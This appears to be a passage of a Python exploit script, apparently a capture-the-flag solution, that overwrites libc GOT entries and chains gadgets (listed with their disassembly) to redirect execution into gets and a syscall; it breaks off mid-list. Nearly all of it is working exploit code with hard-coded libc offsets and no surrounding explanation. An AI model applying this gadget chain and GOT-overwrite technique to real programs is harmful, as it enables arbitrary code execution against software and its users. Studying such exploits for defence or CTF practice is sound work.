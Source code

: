 ```python
memcpy_got =  libc.address+0x219160 +0x34 # lea rdi,rsp 
stpcpy_got =  libc.address+0x219078 +0x34 # lea rdi,rsp as well
wcscmp_got =  libc.address+0x219130 +0x34 # add rsp, 0x...
strcasecmp_got=libc.address+0x219110+0x34 # mov rax, qword[rsp+0x40]
memmove_got = libc.address+0x219068 +0x34 # double call part one
strrchr_got = libc.address+0x219148 +0x34 # double call part two

#gadgets
syscall = libc.address+0x11ea3b #

lea_rdi_rsp = libc.address+0xec84e 
'''
000ec84e  488d7c240f         lea     rdi, [rsp+0xf]
000ec853  4c89c2             mov     rdx, r8
000ec856  4c89e6             mov     rsi, r12
000ec859  4883e7f0           and     rdi, 0xfffffffffffffff0
000ec85d  e8bebdf3ff         call    jump_memcpy
'''

double_call_gets = libc.address+0x1187f2 
'''
001187f2  e839fcf0ff         call    jump_memmove
001187f7  be2f000000         mov     esi, 0x2f
001187fc  4c89ef             mov     rdi, r13
001187ff  e8ecfdf0ff         call    jump_strrchr
'''

mov_rax_rsp_40 = libc.address+0x1597c8 
'''
001597c8  488b442440         mov     rax, qword [rsp+0x40 {var_68}]
001597cd  4c89e7             mov     rdi, r12
001597d0  4889c6             mov     rsi, rax
001597d3  4889442410         mov     qword [rsp+0x10 {var_98_1}], rax
001597d8  e8a3edecff         call    jump_strcasecmp
'''

add_rsp_a_lot = libc.address+0xd059b 
'''
000d059b  4881c4f8000000     add     rsp, 0xf8
000d05a2  5b                 pop     rbx {__saved_rbx}
000d05a3  5d                 pop     rbp {__saved_rbp}
000d05a4  415c               pop     r12 {__saved_r12}
000d05a6  415d               pop     r13 {__saved_r13}
000d05a8  415e               pop     r14 {__saved_r14}
000d05aa  415f               pop     r15 {__saved_r15}
000d05ac  e90f80f5ff         jmp     jump_wcscmp
'''

lea_rdi_rsp2 = libc.address+0x15554c #stpcpy 
'''
0015554c  488d7c2405         lea     rdi, [rsp+0x5]
00155551  4c89ee             mov     rsi, r13
00155554  c64424045f         mov     byte [rsp+0x4], 0x5f
00155559  e8f22eedff         call    jump___stpcpy
'''

# junk got addr to end the chain
end = libc.address+0x2190c8 +0x34

# setup double call for gets
gets = libc.symbols['gets']

writes = [end,
```